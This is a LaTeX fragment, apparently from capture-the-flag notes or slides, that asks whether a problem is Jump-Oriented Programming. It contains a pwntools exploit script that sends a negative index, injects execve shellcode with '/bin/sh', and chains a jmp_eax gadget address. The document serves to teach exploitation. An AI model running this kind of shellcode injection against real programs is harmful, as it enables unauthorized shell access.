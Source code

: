 \documentclass[main.tex]{subfiles}
\begin{document}
\begin{minipage}[t]{0.49\textwidth}
\begin{enumerate}
\begin{minipage}[t]{0.43\textwidth}
\begin{python}
				def next_function(num):
				    fail_in_solving()
				    for i in range(num - 1):
				        succeed_in_solving()
				        fail_in_solving()
			\end{python}
		\end{minipage}
		\item[\texttt{[\_]}] \texttt{[handoff]} Nothing’s interesting there! Is that type of problem called Jump-Oriented Programming \texttt{(JOP)}?
		\begin{python}
			p.sendlineafter(b"2.", b"2")
			p.sendlineafter(b"Which", b"-10")
			sh = "mov rdi, rax; add rdi, 30; mov rsi, 0; mov rdx, 0; mov rax, 59"
			p.sendlineafter(b"What", asm(sh) + asm("syscall") + b"/bin/sh")
			
			jmp_eax = 0x40116C
			p.sendlineafter(b"3.", b"3")
			sh = "add rax, 8; jmp rax; nop; nop; sub rax, 0x5a4; jmp rax"
			p.sendlineafter(b"Thank you", flat(asm(sh), b"????", jmp_eax))
		\end{python}
		
	\end{enumerate}
\end{minipage}
\hfill
\end{document}
